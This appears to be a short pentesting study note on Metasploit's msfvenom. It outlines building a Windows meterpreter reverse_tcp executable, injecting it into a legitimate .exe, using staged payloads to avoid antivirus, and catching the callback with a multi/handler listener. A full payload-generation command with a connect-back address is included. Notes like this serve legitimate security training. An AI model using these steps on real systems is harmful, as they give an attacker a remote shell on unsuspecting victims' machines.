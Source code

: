 # Generating Payloads with MSF Venom

1. Generate Payload
2. Inject Payload into legitimate .exe
3. Payload is executed, we need to be ready with a listener

## MSFVenom
Replacement for MSFplayoad and MSF encode
 
 **Payloads** -- ```msfvenom --list payloads```
 - Stage Payloads - Sent in stages to avoid Antivirus
 - Non-Staged Payload - Sent all at once

**Generating a payload**  
```msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.50.64 LPORT=1234 -f exe > /home/secops/Desktop/payloadx86.exe```  
-a -- architecture - OS type  
-p -- payload you would like to use  
-Lhost -- Your IP you want to connect back to  
-LPORT -- Port you want to connect back to  
-f -- File extension type  
">" -- output to

File outputs available -- ```msfvenom --list formats```

Using Multi-Handler to catch connection  
- Module: Multi/handler
- ```set payload (enter your payload option that you generated from MSFvenom)```
- Set options in module (LHOST/LPORT)
- Run
